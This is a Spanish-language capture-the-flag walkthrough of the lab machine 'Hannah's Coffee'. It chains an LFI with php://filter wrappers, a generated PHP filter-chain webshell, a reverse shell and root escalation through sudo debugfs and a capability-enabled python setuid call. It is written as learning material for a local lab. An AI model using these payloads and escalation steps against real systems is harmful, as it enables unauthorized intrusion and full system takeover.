# hannah_coffee

Hannah's Coffee es una máquina Linux de nivel fácil que simula una aplicación web de cafetería con vulnerabilidades encadenadas. El vector de entrada comienza explotando una vulnerabilidad de Inclusión Local de Archivos (LFI) en la aplicación PHP, la cual se combina con una técnica de FTP Log Poisoning para lograr Ejecución Remota de Códigos (RCE) como www-data. Para la escalada de privilegios, se requiere el uso de comandos permitidos mediante sudo y el abuso de binarios con capabilities específicas para alcanzar el acceso total como root.

## ESCANEO DE PUERTOS



Puertos abiertos: 21, 80

## ENUMERACIÓN DE DIRECTORIOS

Usamos gobuster y dirb



Nos sale los siguientes directorios que analizaremos.



Vemos que puede tener la vulnerabilidad

## LFI

la cual nos podría mostrar información de archivos del sistema.

Para ello usamos ffuf haciendo fuzzing web para buscar algún parametro que nos de una salida

`ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=whoami" --fw 198`

Sustituimos

## FUZZ

que será donde se hará la fuerza con el diccionario.



Vemos la siguiente salida studio

Realizamos la prueba para ver si nos muestra el contenido de /etc/passwd



Vemos que nos lo muestra.

usuario hannah

## INTRUSIÓN

Al saber que funciona, haremos un wrapper para pasar la página a base64 y ver si nos da una salida.

http://172.17.0.2/index.php?studio=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd



Vemos que funciona

Ahora crearemos un código PHP de la siguiente página para usarlo inyectandolo y hacer una reverseshell

https://github.com/synacktiv/php_filter_chain_generator

Nos lo descargamos de la siguiente manera

`wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py`

En este caso usaremos la herramienta “penelope” que usaremos como listener.

Generamos la cadena de filtros con python3

`python3 php_filter_chain_generator.py --chain '\<?=`\$\_GET\[0\]`?>'`

Y la cadena que nos dá la copiamos y la enlazamos en un curl como vemos en la imagen de abajo.



Una vez lanzado nos llegará la señal en penelope



## ESCALADA DE PRIVILEGIOS

Vemos los binarios que podemos ejecutar



Usamos el binario y seremos hannah

`sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img`

!/bin/bash

Una vez siendo hannah vemos que con sudo -l nos pide contraseña

Así que buscamos archivos en los diferentes directorios

`ls -la /tmp /srv /opt /mnt`



Indagaremos en priv-python ya que nos llama la atención.

Al ejecutarlo vemos que es una consola interactiva

Por lo que le introduciremos el siguiente comando y nos abrirá una shell como root

import os; os.setuid(0); os.execl("/bin/bash", "bash")

